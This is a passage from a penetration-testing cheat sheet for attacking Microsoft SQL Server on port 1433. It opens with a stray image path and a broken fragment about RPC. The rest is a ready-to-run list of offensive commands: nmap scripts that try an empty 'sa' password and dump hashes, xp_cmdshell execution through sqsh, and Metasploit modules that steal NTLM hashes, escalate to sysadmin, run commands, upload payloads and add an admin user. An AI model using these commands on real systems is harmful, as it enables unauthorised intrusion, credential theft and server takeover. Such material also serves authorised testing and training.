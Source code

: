 - Used by RPC to connect in domain network.

### Port 1433 - MSSQL
```bash
# info

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping

nmap -p 1433 -sU --script=ms-sql-info.nse $IP
sqsh -S $IP -U <Username> -P <Password> -D <Database>
# OR
sqsh -S $IP -U sa
    xp_cmdshell 'date'
    go

#msfconsole

#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass

```
